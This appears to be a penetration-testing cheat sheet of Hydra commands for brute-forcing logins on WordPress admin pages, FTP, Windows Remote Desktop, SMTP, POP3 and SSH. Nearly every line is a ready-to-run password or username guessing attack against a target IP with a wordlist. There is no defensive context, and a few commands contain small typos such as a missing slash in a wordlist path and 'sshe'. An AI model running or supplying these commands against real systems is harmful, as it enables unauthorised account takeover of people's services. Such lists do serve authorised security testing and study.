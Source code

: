 				brute force a Wordpress admin login
hydra -l admin -P passwords.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
 
				FTP known user and rockyou password list
hydra -t 1 -l admin -P passwords.txt -vV $ip ftp

				attack Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P passwords.txt rdp://$ip

				SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

				POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V

						SSH
				Bruteforce password
hydra -l username -P wordlist IP ssh

				Bruteforce Username
hydra -L wordlist -p password IP ssh

				Bruteforce Username and Password
hydra -L users.txt -P passwords.txt -t 1 -u $ip sshe